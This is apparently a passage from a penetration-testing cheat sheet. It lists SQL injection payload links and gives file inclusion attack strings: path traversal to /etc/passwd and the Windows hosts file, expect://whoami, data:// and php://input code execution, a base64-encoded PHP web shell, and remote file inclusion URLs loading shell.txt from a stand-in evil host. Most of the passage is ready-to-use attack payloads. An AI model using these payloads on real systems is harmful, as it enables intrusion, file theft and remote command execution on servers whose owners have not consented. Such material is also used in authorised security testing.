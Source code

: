 ```bash
```

#### SQLi test payload
- https://github.com/payloadbox/sql-injection-payload-list

#### SQLi resources
- https://github.com/SofianeHamlaoui/Lockdoor-Framework/blob/master/ToolsResources/WEB/CHEATSHEETS/sqli.md
- https://github.com/jhaddix/tbhm/blob/master/06_SQLi.md


#### LFI - often chained with php exploits. upload php payload and use LFI to read the payload and execute
- https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI
- https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/
```bash
#LFI check - Unix
<base url>/../../../../../../etc/passwd
<base url>/../../../../../../etc/passwd%00
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd%2500


#LFI check - Windows
<base url>/../../../../../../../windows/system32/drivers/etc/hosts
.././../../../../../../../../windows/system32/drivers/etc/hosts
../../../../../../../../../../windows/system32/drivers/etc/hosts%00
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fwindows/system32/drivers/etc/hosts
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fwindows/system32/drivers/etc/hosts%2500

#LFI exploit
#(1) expect://
http://x.x.x.x/blah?parameter=expect://whoami

#(2) data://
http://x.x.x.x/blah?parameter=data://text/plain;base64,PD8gcGhwaW5mbygpOyA/Pg==
# the base64 encoded payload is: <? phpinfo(); ?>

#(3) input://
http://x.x.x.x/blah?parameter=php://input
# POST data (using Hackbar)
<? phpinfo(); ?>

#Base64 conversion
echo -n '<?php system($_GET['c']); ?>' | base64
#output is PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4=
```

#### RFI
```bash
http://example.com/index.php?page=http://example.evil/shell.txt

#Null Byte #
http://example.com/index.php?page=http://example.evil/shell.txt%00
```
